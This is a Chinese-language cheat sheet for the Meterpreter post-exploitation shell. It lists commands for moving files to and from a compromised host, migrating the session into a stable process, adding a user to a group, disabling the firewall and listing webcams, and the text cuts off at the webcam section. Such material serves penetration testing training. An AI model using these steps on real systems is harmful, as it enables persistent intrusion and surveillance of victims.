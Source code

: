 
> 
<h3>1.4、常用命令：</h3>
help: 查看帮助信息
background：在后台Meterpreter会话
download: 从入侵主机上下载文件<br/> upload: 上传文件到入侵主机<br/> execute: 在入侵主机上执行命令<br/> shell: 在入侵主机上（仅Windows）运行Windows shell命令<br/> session -i: 切换会话


---


---


## 二、使用

> 
<h3>2.1、进程迁移：</h3>
刚获得Meterpreter Shell，Shell是极其脆弱的，要把Shell和目标机中稳定的进程绑定在一起
eg：利用浏览器漏洞攻陷目标机器，浏览器在一段时间后可能被用户关闭
<pre><code>ps   #查看当前活跃进程
getpid    #获取当前进程pid
migrate &lt;pid值&gt;    #将Meterpreter会话移植到指定pid值进程中
kill &lt;pid值&gt;   #杀死进程</code></pre>


> 
<h3>2.2、系统命令：</h3>
<h4>基础命令：</h4>
<pre><code>shell         #进入目标机cmd shell
background    #将当前会话放置后台
sessions      #sessions -h 查看帮助
sessions -i &lt;ID值&gt;  #进入会话   -k  杀死会话
bgrun / run   #执行已有的模块，输入run后按两下tab，列出已有的脚本
info      #查看已有模块信息
getuid    #查看当前用户身份
getprivs  #查看当前用户具备的权限
getpid    #获取当前进程ID(PID)
sysinfo   #查看目标机系统信息
irb   #开启ruby终端
ps    #查看正在运行的进程    
kill &lt;PID值&gt; #杀死指定PID进程
idletime     #查看目标机闲置时间
reboot / shutdown    #重启/关机

</code></pre>
<hr/>
<h4>cmd命令</h4>
<pre><code>whoami     #当前权限
quser      #当前在线的管理员
net user   #存在用户
net user 用户名 密码 /add            #添加用户和对应密码
net localgroup 用户组名 用户名 /add  #将指定用户添加到指定用户组
netstat -ano  #查询当前计算机中网络连接通信情况，LISTENING表示该端口处于监听状态；ESTABLISHED表示该端口处于工作（通信）状态
systeminfo     #查看当前计算机中的详细情况
tasklist /svc  #查看每个进程所对应的服务
taskkill /f /im 程序名称    #结束某个指定名称的程序
taskkill /f /PID ID        #结束某个指定PID的进程
tasklist | findstr "字符串" #查找输出结果中指定的内容
netsh adcfirewall set allprofiles state off  #关闭防火墙
logoff        #注销某个指定用户的ID
shutdown -r   #重启当前计算机
</code></pre>
<hr/>
<h4>​​​​​​​webcam摄像头命令</h4>
<pre><code>webcam_list     #查看摄像头